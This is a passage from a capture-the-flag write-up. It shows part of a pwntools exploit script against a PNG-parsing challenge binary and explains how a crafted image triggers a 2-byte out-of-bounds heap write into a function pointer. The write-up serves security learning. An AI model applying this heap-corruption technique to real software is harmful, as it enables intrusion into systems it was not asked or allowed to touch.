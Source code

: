 ```python
png += p32(0xb18)
# Padding so we send the correct num of bytes
png += b"\x00" * (img_sz - len(png))

# Just making sure we still good.
print(len(png))

def main():
    # Connect/start proc
    
    p = process("./chal")
    #p = remote("mc.ax", 31412)
    #gdb.attach(p, script)
    
    print(p.sendlineafter("How large is your file?\n\n", str(img_sz)))
    
    print(p.sendafter("please send your image here:\n\n", png))
    
    # This will trigger the code that allows a 2-byte oob write into the function ptrs. Specifically the
    # last 2 bytes of crc_update() ret get written onto the heap, making it one of the only (semi) user controlled
    # values that can be written our of bounds like this.
    print(p.sendlineafter("do you want to invert the colors?", "y"))
    
    p.interactive()

if __name__ == "__main__":
    main()
```

So initially I construct the image, setting up the checksum and header, etc. The checksum can be obtained as since it is based off of the contents before,
the `update_crc` call will always spit out the same value (unless you change what came before). You an just break at the end of `update_crc()` in gdb and grab that
value, then shove it into the buffer:

![image](https://user-images.githubusercontent.com/73792438/125704171-5c4bcff5-f3cf-4326-a948-62df37f1672c.png)

Then reverse it to reflect how its actually stored in memory:

![image](https://user-images.githubusercontent.com/73792438/125704298-abf79411-efc7-4d16-b6c5-62f37a9f863d.png)

Next we have our `image_4_bytes`. `image_4_bytes+4` or rather `crc_write_int` is the difference, at the time of the write between the location of `pngFooterValidate`
in `image_fops` and our allocation pointer at that time, meaning that when we add that value via 
`image_alloc = (undefined2 *)((long)(image_alloc + 2) + (ulong)crc_write_int);`, `image_alloc` will point directly at `pngFooterValidate` on the heap.

![image](https://user-images.githubusercontent.com/73792438/125705853-b1216700-2057-4773-8a86-34a654be4d56.png)

Next in the exploit we have a mysterious value, 0xb18 and then padding to satisfy the size for `fread()`. So what exactly is this value? Well as you know we want 
directly control the output from `update_crc`, but we do control the input. This value will be passed into `update_crc()`, and make it spit our a value with the last
2 bytes set as 0x1818, and will thus write these 2 bytes into the `pngFooterValidate` function pointer:
